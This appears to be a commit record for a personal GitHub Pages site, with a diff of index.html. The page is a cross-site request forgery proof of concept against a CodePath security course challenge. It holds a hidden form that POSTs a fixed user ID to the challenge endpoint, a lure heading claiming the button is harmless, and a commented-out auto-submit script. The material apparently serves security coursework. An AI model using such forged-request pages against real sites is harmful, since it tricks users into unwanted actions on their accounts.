

Before and after one commit to JChen6592/JChen6592.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
    <body>
       <form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
          <input type="hidden" name="userId" value="4023e129f51f1457620f81e32ad90b4148d2fe1b">
-         <input type="submit" target="_blank" value="Redirect back">
+         <input type="submit">
       </form>
       <h1>I Swear The Button Is Harmless!</h1>
       <!--<script> document.csrfForm.submit(); </script>-->
```
